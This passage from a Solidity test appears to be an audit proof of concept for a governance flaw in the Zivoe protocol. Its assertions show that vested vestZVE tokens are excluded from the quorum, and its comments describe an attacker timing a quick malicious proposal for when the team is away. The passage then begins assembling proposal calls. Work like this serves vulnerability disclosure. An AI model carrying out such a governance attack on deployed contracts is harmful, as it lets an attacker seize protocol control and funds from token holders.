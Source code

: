 ```solidity
        assertEq(
            ZVE.totalSupply(), 2500000 ether * 10
        );
        assertEq(
            ZVE.totalSupply() * GOV.quorumNumerator() / GOV.quorumDenominator(),
            GOV.quorum(block.number - 1)
        );
        assertEq(
            ZVE.totalSupply() * GOV.quorumNumerator() / GOV.quorumDenominator(),
            2500000 ether
        );

        // @@@@@@@@@@@@@@@@@@@@@@@@@@@
        // 4. Give Poe 2500000 vestZVE.
        assert(zvl.try_createVestingSchedule(
            address(vestZVE), 
            address(poe), 
            100,  // 100 Day Cliff
            300,  // 300 Day Total
            2500000 ether,  // Amount to vest. Set as 10% of total supply of ZVE deliberately
            false
        ));

        hevm.warp(block.timestamp + 1 seconds);
        hevm.roll(block.number + 1);

        // @@@@@@@@@@@@@@@@@@@@@@@@@@@
        // 5. Check that the quorum stays the same
        // which means that vestZVE are not included in the quorum calculation.
        // which introduces the attack vector.
        // if the total supply of vestZVE and stZVE are included in the quorum like:
        // (ZVE.totalSupply() + stZVE.totalSupply() + vestZVE.totalSupply()) * GOV.quorumNumerator() / GOV.quorumDenominator()
        // then obviously you would need a lot more vote for the proposal to be passed.
        assertEq(
            ZVE.totalSupply(), 2500000 ether * 10
        );
        assertEq(
            ZVE.totalSupply() * GOV.quorumNumerator() / GOV.quorumDenominator(),
            GOV.quorum(block.number - 1)
        );
        assertEq(
            ZVE.totalSupply() * GOV.quorumNumerator() / GOV.quorumDenominator(),
            2500000 ether
        );

        // @@@@@@@@@@@@@@@@@@@@@@@@@@@
        // 6. Poe, noticing his superpower, decides to run a quick attack while
        // maybe Zivoe team is away at Saturday night, so it will be unlikely that
        // they would cancel the proposal by detecting it.
        address[] memory targets = new address[](4);
        targets[0] = address(YDL);
        targets[1] = address(YDL);
        targets[2] = address(YDL);
        targets[3] = address(YDL);
        uint256[] memory values = new uint256[](4);
        values[0] = 0;
        values[1] = 0;
        values[2] = 0;
        values[3] = 0;
        bytes[] memory calldatas = new bytes[](4);

        address[] memory recipients = new address[](1);
```